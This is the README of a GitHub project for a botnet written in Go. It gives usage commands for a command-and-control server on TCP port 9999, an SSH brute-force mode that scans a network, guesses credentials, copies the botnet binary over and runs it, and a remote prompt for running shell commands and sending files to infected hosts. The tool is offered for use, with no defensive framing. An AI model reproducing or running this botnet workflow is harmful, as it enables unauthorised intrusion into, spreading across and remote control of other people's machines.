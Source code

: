 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

Compile from the `botnet/cmd/botnet` directory.

 - Run the C&C:

```bash
botnet listen
```

This starts up a C&C that listens on default port `9999`.

- Attack a machine to get the botnet on the machine. The only supported attack right now is brute forcing SSH 

```bash
botnet -ufile /paht/to/usernames/file -pfile /path/to/passwords/file -bindir /path/to/botnet/bin/dir attack ssh
```

This will scan all the ips on the network find which ips have port 22 open and attempt to brute force its way in. Once it has access it will SCP the botnet binary over and execute the botnet client to connect to our command and control center

 - Connect a payload to the C&C:

```bash
botnet -target 192.168.2.2 -port 9999 connect
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<CC:#>`

show all payloads connected to C&C:

```bash
<CC:#> show
```

This will return the payload ids and addresses

```
ID: 0 Address: 127.0.0.1:64635
ID: 1 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads id:

```bash
<CC:#> use 0
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<CC#>`
